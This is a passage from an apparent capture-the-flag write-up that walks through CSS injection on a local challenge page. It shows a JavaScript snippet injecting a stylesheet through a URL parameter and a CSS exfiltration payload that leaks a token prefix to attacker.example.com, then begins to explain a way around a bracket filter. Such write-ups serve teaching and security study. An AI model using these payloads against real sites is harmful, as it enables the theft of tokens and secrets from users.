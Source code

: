 In fact, the CSS injection works at `/not-found.txt?{}body{background:limegreen}`:

```javascript
const content = `
  <link href="/not-found.txt?{}body{background:limegreen}" rel=stylesheet>
`;
location = `http://localhost:3000?content=${
  encodeURIComponent(content)
}${"&a".repeat(1000)}`;
```

![](./img/step2-03.png)

### Step 3: CSS Injection without Attribute Selectors

A classic CSS exfiltration payload looks like:

```css
input[value^="TOKEN_012"] {
  background-image: url(http://attacker.example.com/?orefix=TOKEN_012);
}
```

But, we can't use this payload here due to:

- Issue 1: `[` and `]` are banned
    - → Using attribute selectors are disallowed.
- Issue 2: CSP includes `default-src 'self'`
    - → Using external requests are disallowed (so `url(...)` leaks don't work).

For Issue 1, we can emulate attribute checks using a `:valid` pseudo-class and an `<input>`'s `pattern` attribute:
